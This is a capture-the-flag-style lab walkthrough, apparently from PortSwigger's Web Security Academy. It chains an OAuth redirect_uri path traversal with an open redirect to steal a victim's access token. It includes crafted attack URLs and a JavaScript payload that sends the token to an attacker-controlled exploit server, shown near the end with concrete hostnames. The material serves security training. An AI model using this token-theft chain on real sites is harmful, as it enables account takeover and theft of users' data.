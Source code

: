 
Solution:

1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Study the resulting requests and responses. Notice that the blog website makes an API call to the userinfo endpoint at `/me` and then uses the data it fetches to log the user in. Send the `GET /me` request to Burp Repeater.
3. Log out of your account and log back in again. From the proxy history, find the most recent `GET /auth?client_id=[...]` request and send it to Repeater.
4. In Repeater, experiment with the `GET /auth?client_id=[...]` request. Observe that you cannot supply an external domain as `redirect_uri` because it's being validated against a whitelist. However, you can append additional characters to the default value without encountering an error, including the `/../` [path traversal](https://portswigger.net/web-security/file-path-traversal) sequence.
5. Log out of your account on the blog website and turn on proxy interception in Burp.
6. In the browser, log in again and go to the intercepted `GET /auth?client_id=[...]` request in Burp Proxy.
7. Confirm that the `redirect_uri` parameter is in fact vulnerable to [directory traversal](https://portswigger.net/web-security/file-path-traversal) by changing it to:
    
    `https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1`
    
    Forward any remaining requests and observe that you are eventually redirected to the first blog post. In the browser, notice that your access token is included in the URL as a fragment.
    
8. With the help of Burp, audit the other pages on the blog website. Identify the "Next post" option at the bottom of each blog post, which works by redirecting users to the path specified in a query parameter. Send the corresponding `GET /post/next?path=[...]` request to Repeater.
9. In Repeater, experiment with the `path` parameter. Notice that this is an open redirect. You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server.
10. Craft a malicious URL that combines these vulnerabilities. You need a URL that will initiate an OAuth flow with the `redirect_uri` pointing to the open redirect, which subsequently forwards the victim to your exploit server:
    
    `https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email`
    
1. Test that this URL works correctly by visiting it in the browser. You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.
2. On the exploit server, create a suitable script at `/exploit` that will extract the fragment and output it somewhere. For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:
    
    `<script> window.location = '/?'+document.location.hash.substr(1) </script>`
13. To test that everything is working correctly, store this exploit and visit your malicious URL again in the browser. Then, go to the exploit server access log. There should be a request for `GET /?access_token=[...]`.
14. You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:
    
    `<script> if (!document.location.hash) { window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email' } else { window.location = '/?'+document.location.hash.substr(1) } </script>`
    
1. To test that the exploit works, store it and then click "View exploit". The page should appear to refresh, but if you check the access log, you should see a new request for `GET /?access_token=[...]`.
2. Deliver the exploit to the victim, then copy their access token from the log.
3. In Repeater, go to the `GET /me` request and replace the token in the `Authorization: Bearer` header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
4. Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.
5. 
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0ace00d5039faa0b83d94e64027f003b.oauth-server.net/auth?client_id=y4t2v1kk1j7zxjrihrizb&redirect_uri=https://0ad000ff0360aa038320501f003000f9.web-security-academy.net/oauth-callback/../../post/next?path=https://exploit-0a21001c030faa1783124f5c01cf0074.exploit-server.net/exploit&response_type=token&nonce=933640936&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>